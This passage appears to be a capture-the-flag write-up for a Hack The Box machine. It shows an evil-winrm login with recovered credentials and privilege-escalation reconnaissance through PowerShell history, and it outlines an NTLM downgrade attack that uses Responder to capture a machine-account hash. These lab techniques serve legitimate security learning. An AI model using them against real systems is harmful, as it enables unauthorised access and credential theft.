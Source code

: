 From this, we can can see the credentials `henry.vinson_adm:G1#Ny5@2dvht`, now that we have that we can get a shell with `evil-winrm`



Now that we have a shell with evil-winrm we can need to move onto privilege escalation

```powershell
utopia@utopia: evil-winrm [master] » ruby evil-winrm.rb -i apt.htb.local -u 'henry.vinson_adm' -p 'G1#Ny5@2dvht'

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\henry.vinson_adm\Documents> 
*Evil-WinRM* PS C:\Users\henry.vinson_adm\Documents> type ..\Desktop\user.txt
6ddc<REDACTED>eeb338ea01c
```

## Privilege escalation

After running many privilege escalations scripts such as WinPEAS, JAWS and PowerUp, I noticed the 'ConsoleHost_history' file which sounds very interesting, when we 'cat' it we can see some very interesting things.

```powershell
*Evil-WinRM* PS C:\Users\henry.vinson_adm\Documents> type \Users\henry.vinson_adm\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
$Cred = get-credential administrator
invoke-command -credential $Cred -computername localhost -scriptblock {Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" lmcompatibilitylevel -Type DWORD -Value 2 -Force}
*Evil-WinRM* PS C:\Users\henry.vinson_adm\Documents> 
```

Now, initially these didn't seem very interesting, but further reading [microsoft documentation](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level) reveals that this might be more interesting than I initially considered, there is a common post-exploitation technique when you get local administrator on a system to downgrade (weaken) the windows authentcation called **ntlm downgrade attack**, now this is related because it seems like the target has purposely downgraded the authentication to the value of '2' which does this:

> Send NTLM response only : Client devices use NTLMv1 authentication, and they use NTLMv2 session security if the server supports it. Domain controllers accept LM, NTLM, and NTLMv2 authentication.


You can read about this [more here](https://book.hacktricks.xyz/windows/ntlm)

In AD, computers are treated much the same as user accounts, they also contain passwords, and this domain controller is no different, we can ironically abuse Windows Defender with Responder to grab a NTLM hash of the computer account, and crack that hash if we have the challenge '**112233445566778899**' in the hash.

We don't have to restrict ourselves to responder though, we can also use metasploit's capturing auxilary module: `auxiliary/server/capture/smb` but because I like Responder I'll be showcasing it with that, although you should probably start using metasploit's module as Responder is now unfortunately EOL.
